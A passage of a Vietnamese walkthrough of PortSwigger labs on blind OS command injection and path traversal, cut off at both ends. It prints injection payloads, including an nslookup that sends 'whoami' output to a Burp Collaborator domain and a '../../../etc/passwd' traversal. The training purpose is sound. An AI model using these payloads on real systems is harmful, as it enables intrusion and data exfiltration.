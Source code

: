 
Access lab thì lại thấy 1 web cũ thì lỗi mòn cũ thôi ! Sau khi kiểm tra thì biến email vẫn là nơi để chúng ta khai thác. Nhưng theo gợi ý thì chúng ta sẽ khai thác theo cách đó là đưa input ghi vào 1 file ở 1 thư mục chúng ta biết như là */var/www/images/* chúng ta có thể dùng repeater để tiếp tục thử nhiều cách injection .

Sau đó để kiểm tra xem chúng ta đã thành công chưa thì hãy tìm 1 request load ảnh để kiểm chứng như sau.


[Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

Bài này là kiểu tấn công OAST[] cần 1 DNS tới chính xác địa chỉ burpcollaborator.net. 
Access lab và vẫn đi theo lối cũ điều đó có nghĩa là việc exploit của mình vẫn thế chỉ khác chỗ là lần này câu lệnh exploit lần này sẽ khác 
&nsloockup+burpcollaborator.net& 

Chúng ta vẫn sẽ dùng burp suite để bắt và repeater để thử xem.
Sau khi thực hiện xong sẽ có thông báo solve trả về.




[Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

Bài này mình đánh giá nó khó hơn 1 chút vì nó cần thêm 1 số kiến thức về chắc năng của Burp Collaborator cũng như OAST hoạt động như nào để có thể áp dụng vào bài lab này.

Access bài lab ta có gợi ý rằng chúng ta phải lấy được tên người dùng bằng câu lệnh *whoami* và submit thì mới pass qua được bài lab này. Vậy nên chúng ta dùng câu lệnh nslookup  và DNS từ chức năng BurpCollaborator cung cấp cho. * ||nslookup+`whoami`.x53orfnw7ap32surjmqs0zfncei56u.burpcollaborator.net|| * trong đó *x53orfnw7ap32surjmqs0zfncei56u* chính là DNS mà Burp Collaborator cung cấp cho chúng ta. 

Sau đó chúng ta pull now để lấy những gì đã trả về bên DNS của chúng ta và chúng ta có username như sau ..... Submit và solve.


### Directory traversal

[File path traversal, simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple)

Lab cho ta gợi ý rằng sẽ khai thác thông qua hình ảnh vậy nên khả năng là chúng ta load ảnh và exploit thôi.

Access lab thì thấy 1 trang web quen thuộc, chúng ta thử bắt 1 file load hình ảnh và thấy rằng hình ảnh được truy xuất bằng đường dẫn */image?filename* ,thử exploit bằng payload *../../../etc/passwd* 
Và kết quả trả về file passwd . ĐIều đó cho thấy chúng ta đã exploit thành công lỗ hổng Path Traversal trên trang web này. Lí do là vì web không dùng bất kỳ phương pháp nào để bảo vệ input đầu vào nào cả mà chỉ trực tiếp truy xuất hình.



[File path traversal, traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)

To solve

